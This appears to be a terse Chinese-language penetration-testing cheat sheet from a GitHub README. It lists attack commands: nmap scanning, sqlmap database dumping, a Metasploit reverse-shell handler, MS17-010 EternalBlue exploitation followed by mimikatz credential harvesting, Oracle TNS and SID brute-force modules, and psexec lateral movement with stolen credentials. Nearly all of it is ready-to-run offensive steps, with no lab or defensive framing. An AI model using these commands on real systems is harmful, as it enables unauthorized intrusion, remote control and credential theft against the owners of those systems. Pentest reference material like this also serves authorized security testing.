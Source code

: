 # Speed-PenTest 
`出渗透测试报告也是需要技巧的`
[TOC]

---

# 通用
## 信息收集
### IP扫
>netdiscover -r 1.1.1.0/24

### 端口扫
>nmap -T5 -A -v 1.1.1.1

---

# web
## SQL注入
### sqlmap
```sql
sqlmap -u URL	判断注入
sqlmap -u URL --current-db	 获取当前数据库
sqlmap -u URL -D DATABASE --tables		获取数据库表
sqlmap -u URL -D DATABASE -T TABLES --columns	获取指定表的列名
sqlmap -u URL -D DATABASE -T TABLES -C COLUMNS --dump		获取指定表的列名
```

## 业务渗透
### openssl
MassBleed
sslscan
testssl

---

# 监听器
## handler
```bash
use exploit/multi/handler
set payload windows/x64/meterpreter_reverse_tcp
set LHOST
set LPORT
```

## exp
### ms17-010
```bash
发现，检测
use auxiliary/scanner/smb/smb_ms17_010

使用payload连上去
use exploit/windows/smb/ms17_010_eternalblue
set payload windows/x64/meterpreter/reverse_tcp
set lhost   #设一下本机地址
set rhosts 
run

msf 下
加载mimikatz模块
load mimikatz
kerberos
```

## poc
### CVE-2012-1675 Oracle TNS Listener Remote Poisoning
```bash
use auxiliary/admin/oracle/tnscmd   #该漏洞可以远程获取到oracle的内存信息，若是能获取到内存中的数据即为存在漏洞。
use auxiliary/admin/oracle/sid_brute  #爆破oracle的SID
```

## 域
cmd 下
```bash
#如果没有psexec工具记得找pstool工具包，传一个上去
psexec \\hostIp -u [username] -p [password] cmd
```
